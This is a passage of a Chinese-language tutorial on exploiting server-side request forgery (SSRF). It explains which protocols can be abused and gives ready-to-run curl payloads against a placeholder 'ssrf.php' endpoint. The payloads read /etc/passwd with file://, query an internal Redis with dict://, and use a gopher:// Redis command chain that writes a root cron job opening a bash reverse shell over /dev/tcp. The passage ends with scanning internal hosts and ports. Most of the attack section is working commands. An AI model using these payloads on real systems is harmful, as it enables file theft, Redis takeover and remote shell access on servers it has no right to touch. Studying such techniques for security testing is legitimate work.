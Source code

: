 # 6.1. SSRF利用的协议

（1）file：在有回显的情况下，利用 file 协议可以读取任意内容

（2）dict：泄露安装软件版本信息，查看端口，操作内网redis服务等

（3）gopher：gopher支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell

（4）http/s：探测内网主机存活

## 6.2. 攻击运行在内网或本地的应用程序

 **本地利用方式：**

（1）使用file协议 file protocol (任意文件读取)



```
curl -vvv "http://target/ssrf.php?url=file:///etc/passwd"
```

 

（2）使用dict协议 dict protocol (获取Redis配置信息)



```
curl -vvv "http://target/ssrf.php?url=dict://127.0.0.1:6379/info"
```

 

（3）使用gopher协议(俗称万能协议) gopher protocol (一键反弹Bash)



```
curl -vvv "http://target/ssrf.php?url=gopher://127.0.0.1:6379/_*1 %0d %0a $8%0d %0aflushall %0d %0a*3 %0d %0a $3%0d %0aset %0d %0a $1%0d %0a1 %0d %0a $64%0d %0a %0d %0a %0a %0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/4444 0>&1 %0a %0a %0a %0a %0a %0d %0a %0d %0a %0d %0a*4 %0d %0a $6%0d %0aconfig %0d %0a $3%0d %0aset %0d %0a $3%0d %0adir %0d %0a $16%0d %0a/var/spool/cron/ %0d %0a*4 %0d %0a $6%0d %0aconfig %0d %0a $3%0d %0aset %0d %0a $10%0d %0adbfilename %0d %0a $4%0d %0aroot %0d %0a*1 %0d %0a $4%0d %0asave %0d %0aquit %0d %0a"
```

##  6.3. 扫描内部网络，获取端口，服务信息

构造IP:PORT进行访问

探测内网IP192.168.1.124的80端口（这里用的是http协议当然也可以把http更换成dict协议去探测开放端口）



```
http://localhost/ssrf.php?url=http://192.168.1.124:80
```

[![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211207161427117-1221456175.png)](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211207161427117-1221456175.png)
